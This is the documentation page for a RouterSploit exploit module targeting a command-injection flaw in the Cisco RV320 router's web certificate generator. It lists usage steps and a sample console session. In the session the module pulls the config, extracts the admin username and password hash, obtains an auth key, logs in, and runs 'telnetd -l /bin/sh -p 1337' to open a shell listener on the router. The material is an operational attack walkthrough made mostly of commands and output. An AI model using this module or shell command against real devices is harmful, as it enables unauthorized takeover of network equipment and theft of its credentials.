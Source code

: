 ## Description

Module exploits Cisco RV320 Remote Command Injection vulnerability in the web-based certificate generator feature.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use exploits/routers/cisco/rv320_command_injection`
  3. Do: `set target [TargetIP]`
  4. Do: `set command [Remote Command]`
  5. Do: `run`
  6. If router is vulnerable, it should be possible to execute command on operating system level.

## Scenarios

```
rsf > use exploits/routers/cisco/rv320_command_injection
rsf (Cisco RV320 Command Injection) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Cisco RV320 Command Injection) > set command "telnetd -l /bin/sh -p 1337"
[+] command => "telnetd -l /bin/sh -p 1337"
rsf (Cisco RV320 Command Injection) > run
[*] Running module exploits/routers/cisco/rv320_command_injection...
[+] Target is vulnerable
[*] Gonna go grab us a config file...
[+] We seem to have found a valid config!
[*] Extracting Creds...
[+] Got user: cisco
[+] Got password (hash): [redacted]
[*] Sending request to extract auth key...
[+] Got auth_key value: 1964300002
[+] Login Successful, we can proceed!
[*] Ok, now to run your command: telnetd -l /bin/sh -p 1337
[*] We don't get output so... Yeah. Shits blind.
```